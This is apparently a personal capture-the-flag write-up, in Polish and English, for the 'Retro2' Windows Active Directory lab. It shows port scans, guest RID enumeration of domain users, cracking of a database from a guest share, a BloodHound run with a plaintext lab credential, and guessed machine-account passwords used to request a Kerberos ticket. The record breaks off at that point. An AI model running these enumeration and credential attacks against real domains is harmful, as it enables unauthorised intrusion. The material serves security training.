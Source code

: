 # Retro2
Windows, easy, created by **xct**

![retro2_slide](https://github.com/user-attachments/assets/ab901566-51ff-4a6d-a50a-27ab2d5ba80d)


```
53/tcp    open  domain             Microsoft DNS 6.1.7601 (1DB15F75) (Windows Server 2008 R2 SP1)
53/udp  open  domain       Microsoft DNS 6.1.7601 (1DB15F75) (Windows Server 2008 R2 SP1)
88/udp  open  kerberos-sec Microsoft Windows Kerberos (server time: 2024-11-27 16:18:14Z)
123/udp open  ntp          NTP v3
135/tcp   open  msrpc              Microsoft Windows RPC
139/tcp   open  netbios-ssn        Microsoft Windows netbios-ssn
389/tcp   open  ldap               Microsoft Windows Active Directory LDAP (Domain: retro2.vl, Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds       Windows Server 2008 R2 Datacenter 7601 Service Pack 1 microsoft-ds (workgroup: RETRO2)
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http         Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap               Microsoft Windows Active Directory LDAP (Domain: retro2.vl, Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
3389/tcp  open  ssl/ms-wbt-server?
5722/tcp  open  msrpc              Microsoft Windows RPC
9389/tcp  open  mc-nmf             .NET Message Framing
49154/tcp open  msrpc              Microsoft Windows RPC
49155/tcp open  msrpc              Microsoft Windows RPC
49157/tcp open  ncacn_http         Microsoft Windows RPC over HTTP 1.0
49158/tcp open  msrpc              Microsoft Windows RPC
49172/tcp open  msrpc              Microsoft Windows RPC

```

Windows Server 2008? veeeeery old

`| ssl-cert: Subject: commonName=BLN01.retro2.vl`

```
enum4linux -a 10.10.77.186
enum4linux -u guest -a 10.10.77.186
enum4linux -u anonymous -a 10.10.77.186
```
![{89061595-56DD-4A54-B3F0-94978B62B218}](https://github.com/user-attachments/assets/9cd64afc-7142-4de4-aaec-7f44bd22c526)

```
nxc smb 10.10.77.186 -u guest -p '' --rid
SMB         10.10.77.186    445    BLN01            [*] Windows Server 2008 R2 Datacenter 7601 Service Pack 1 x64 (name:BLN01) (domain:retro2.vl) (signing:True) (SMBv1:True)
SMB         10.10.77.186    445    BLN01            [+] retro2.vl\guest: 
SMB         10.10.77.186    445    BLN01            498: RETRO2\Enterprise Read-only Domain Controllers (SidTypeGroup)
SMB         10.10.77.186    445    BLN01            500: RETRO2\Administrator (SidTypeUser)
SMB         10.10.77.186    445    BLN01            501: RETRO2\Guest (SidTypeUser)
SMB         10.10.77.186    445    BLN01            502: RETRO2\krbtgt (SidTypeUser)
SMB         10.10.77.186    445    BLN01            512: RETRO2\Domain Admins (SidTypeGroup)
SMB         10.10.77.186    445    BLN01            513: RETRO2\Domain Users (SidTypeGroup)
SMB         10.10.77.186    445    BLN01            514: RETRO2\Domain Guests (SidTypeGroup)
SMB         10.10.77.186    445    BLN01            515: RETRO2\Domain Computers (SidTypeGroup)
SMB         10.10.77.186    445    BLN01            516: RETRO2\Domain Controllers (SidTypeGroup)
SMB         10.10.77.186    445    BLN01            517: RETRO2\Cert Publishers (SidTypeAlias)
SMB         10.10.77.186    445    BLN01            518: RETRO2\Schema Admins (SidTypeGroup)
SMB         10.10.77.186    445    BLN01            519: RETRO2\Enterprise Admins (SidTypeGroup)
SMB         10.10.77.186    445    BLN01            520: RETRO2\Group Policy Creator Owners (SidTypeGroup)
SMB         10.10.77.186    445    BLN01            521: RETRO2\Read-only Domain Controllers (SidTypeGroup)
SMB         10.10.77.186    445    BLN01            553: RETRO2\RAS and IAS Servers (SidTypeAlias)
SMB         10.10.77.186    445    BLN01            571: RETRO2\Allowed RODC Password Replication Group (SidTypeAlias)
SMB         10.10.77.186    445    BLN01            572: RETRO2\Denied RODC Password Replication Group (SidTypeAlias)
SMB         10.10.77.186    445    BLN01            1000: RETRO2\admin (SidTypeUser)
SMB         10.10.77.186    445    BLN01            1001: RETRO2\BLN01$ (SidTypeUser)
SMB         10.10.77.186    445    BLN01            1102: RETRO2\DnsAdmins (SidTypeAlias)
SMB         10.10.77.186    445    BLN01            1103: RETRO2\DnsUpdateProxy (SidTypeGroup)
SMB         10.10.77.186    445    BLN01            1104: RETRO2\staff (SidTypeGroup)
SMB         10.10.77.186    445    BLN01            1105: RETRO2\Julie.Martin (SidTypeUser)
SMB         10.10.77.186    445    BLN01            1106: RETRO2\Clare.Smith (SidTypeUser)
SMB         10.10.77.186    445    BLN01            1107: RETRO2\Laura.Davies (SidTypeUser)
SMB         10.10.77.186    445    BLN01            1108: RETRO2\Rhys.Richards (SidTypeUser)
SMB         10.10.77.186    445    BLN01            1109: RETRO2\Leah.Robinson (SidTypeUser)
SMB         10.10.77.186    445    BLN01            1110: RETRO2\Michelle.Bird (SidTypeUser)
SMB         10.10.77.186    445    BLN01            1111: RETRO2\Kayleigh.Stephenson (SidTypeUser)
SMB         10.10.77.186    445    BLN01            1112: RETRO2\Charles.Singh (SidTypeUser)
SMB         10.10.77.186    445    BLN01            1113: RETRO2\Sam.Humphreys (SidTypeUser)
SMB         10.10.77.186    445    BLN01            1114: RETRO2\Margaret.Austin (SidTypeUser)
SMB         10.10.77.186    445    BLN01            1115: RETRO2\Caroline.James (SidTypeUser)
SMB         10.10.77.186    445    BLN01            1116: RETRO2\Lynda.Giles (SidTypeUser)
SMB         10.10.77.186    445    BLN01            1117: RETRO2\Emily.Price (SidTypeUser)
SMB         10.10.77.186    445    BLN01            1118: RETRO2\Lynne.Dennis (SidTypeUser)
SMB         10.10.77.186    445    BLN01            1119: RETRO2\Alexandra.Black (SidTypeUser)
SMB         10.10.77.186    445    BLN01            1120: RETRO2\Alex.Scott (SidTypeUser)
SMB         10.10.77.186    445    BLN01            1121: RETRO2\Mandy.Davies (SidTypeUser)
SMB         10.10.77.186    445    BLN01            1122: RETRO2\Marilyn.Whitehouse (SidTypeUser)
SMB         10.10.77.186    445    BLN01            1123: RETRO2\Lindsey.Harrison (SidTypeUser)
SMB         10.10.77.186    445    BLN01            1124: RETRO2\Sally.Davey (SidTypeUser)
SMB         10.10.77.186    445    BLN01            1127: RETRO2\ADMWS01$ (SidTypeUser)
SMB         10.10.77.186    445    BLN01            1128: RETRO2\inventory (SidTypeUser)
SMB         10.10.77.186    445    BLN01            1129: RETRO2\services (SidTypeGroup)
SMB         10.10.77.186    445    BLN01            1130: RETRO2\ldapreader (SidTypeUser)
SMB         10.10.77.186    445    BLN01            1131: RETRO2\FS01$ (SidTypeUser)
SMB         10.10.77.186    445    BLN01            1132: RETRO2\FS02$ (SidTypeUser)
```

zrobiłem sobie listę userów

![{602E1215-F958-4268-B1B0-5F76314C104A}](https://github.com/user-attachments/assets/f9b356e5-c6f4-4daa-9355-bc9364d35bc7)

asproasting odpada

![{4CCFEF23-D952-4BD1-8C78-EB3C7BCAB559}](https://github.com/user-attachments/assets/abb1eb99-f41a-4978-a37f-d2460f536113)

Dobra znowu guest share

![{54F60447-BC72-4495-A3B7-769A822D41D7}](https://github.com/user-attachments/assets/274d1a74-2b42-4218-9836-a986b5c6815f)

![{0025D800-4CB0-462A-87BE-DF5FEC8E0160}](https://github.com/user-attachments/assets/104b347f-038f-4738-8cb8-b826eaffedbf)

![{E38E8869-3450-41CC-B015-907860CA390F}](https://github.com/user-attachments/assets/ac39365f-2411-4432-a30f-107e613f028f)

Database is password protected

![{6276DCDB-FAAD-4469-AD22-AEC492660FC5}](https://github.com/user-attachments/assets/03c0ecad-08f5-4414-a50b-57fa92c49e3e)

Fast cracking

![cracking](https://github.com/user-attachments/assets/4e6e98f5-1368-4806-93af-e49d5562f858)

I exported data to .txt file

![{6539CF70-EE3A-4923-9B61-E5D5FDCCC84D}](https://github.com/user-attachments/assets/6338b160-551c-4018-8be6-23f783530bbe)


![cracking](https://github.com/user-attachments/assets/86b4fa51-ce76-4126-9474-426bf06c1cb7)
![pass](https://github.com/user-attachments/assets/46b9cf5f-57d9-4fc6-bdfc-bd83e1d09a8e)

`ldapreader` więc chyba coś z ldapem hehe.
Ale ja machnę bloodhounda bo to samo da i więcej

`bloodhound-python -d retro2.vl -c all -u ldapreader -p ppYaVcB5R -ns 10.10.77.186`

Widzimy kilka komputerów... mam pomysł z poprzedniego retro

![{6B33EE5F-5F14-46E8-8C91-B91DECADABE4}](https://github.com/user-attachments/assets/045d8bb7-314d-41ca-badb-0249236aab26)

![{3D52E395-BA8D-41E1-98CC-2B052D5A08D6}](https://github.com/user-attachments/assets/3803755b-0eb9-436b-8e2f-814e58029b0c)

![{8FBC979E-E930-4ADE-A86E-275A9D522704}](https://github.com/user-attachments/assets/fc80f9e8-8a48-4045-b8f3-a0fd78a0565c)

sooooo x2 `STATUS_NOLOGON_WORKSTATION_TRUST_ACCOUNT` are interesting

```
FS01$:fs01
FS02$:fs02
```

```
impacket-getTGT 'retro2.vl/FS01$:fs01'
export KRB5CCNAME=FS01\$.ccache
klist
```

![{1003E993-EAEB-42EB-82CE-FE4A55A55AA9}](https://github.com/user-attachments/assets/d4ae5992-669b-461e-9f8e-6b572c6b6a75)


